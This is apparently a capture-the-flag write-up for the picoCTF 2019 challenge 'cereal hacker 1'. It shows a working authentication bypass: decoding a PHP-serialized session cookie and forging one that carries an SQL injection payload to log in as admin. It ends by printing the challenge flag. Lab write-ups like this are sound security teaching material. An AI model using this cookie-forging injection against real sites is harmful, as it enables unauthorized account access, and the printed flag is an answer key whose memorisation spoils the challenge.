 ## cereal hacker 1 (450)

#### Description
> Login as admin. https://2019shell1.picoctf.com/problem/32256/ or http://2019shell1.picoctf.com:32256

#### Solution
Login with account `guest:guest`, we got the cookie:
```
user_info: TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D
```
Base64 decode the cookie, we got this:
```
O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}
```
The login page is not injectable, but the cookie is injectable with SQLi.
Payload to login as admin:
```
O:11:"permissions":1:{s:8:"username";s:10:"admin'-- -";}
TzoxMToicGVybWlzc2lvbnMiOjE6e3M6ODoidXNlcm5hbWUiO3M6MTA6ImFkbWluJy0tIC0iO30=
```

Edit the cookie, then visit the admin page at https://2019shell1.picoctf.com/problem/32256/index.php?file=admin, we will get flag.

![flag.png](flag.png)


#### Flag
`picoCTF{2eb6a9439bfa7cb1fc489b237de59dbf}`
